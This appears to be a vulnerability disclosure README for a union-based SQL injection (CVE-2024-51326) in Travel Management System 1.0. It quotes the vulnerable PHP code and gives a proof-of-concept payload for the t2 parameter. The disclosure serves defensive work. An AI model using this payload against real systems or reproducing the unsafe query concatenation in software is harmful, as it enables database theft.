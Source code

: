 # CVE-2024-51326: SQL Injection in Travel Management System 1.0

Travel Management System version 1.0 by projectworlds has Union-based SQL Injection vulnerability which leaks sensitive data from the Database.
The exploit works via the `t2` POST parameter in `deletesubcategory.php` component which insecurely concatenates HTTP Parameter into a MySQL query.


Vulnerable code:
```php
if(isset($_POST["show"]))
{

$cn=makeconnection();
$s="select * from subcategory where catid='" . $_POST["t2"] ."'";   // <-- POST param is Concatenated [!]
$result=mysqli_query($cn,$s);
$r=mysqli_num_rows($result);

while($data=mysqli_fetch_array($result))
{
        echo "<option value=$data[0]>$data[1]</option>"; <--- Output is reflected in response.
}
}
```
 
## Proof-of-concept:


* Intercept the request to `deletesubcategory.php` using Burp Suite or any web proxy.
* Use t2 parameter to inject a Union-based SQL query that retrieves data from the users table.
  example payload: `t2=1' UNION SELECT 1, version(), 3, 4, 5 -- -`
* The version information is reflected in the dropdown list.

**Discovered by Anirudh Krishnaprasad, October 2024.**

## Images:

![reflectedoutput](https://github.com/user-attachments/assets/99589cc8-1a05-4417-b129-90421d006443)


## References :

- [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-51326](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-51326)
- https://nvd.nist.gov/vuln/detail/CVE-2024-51326

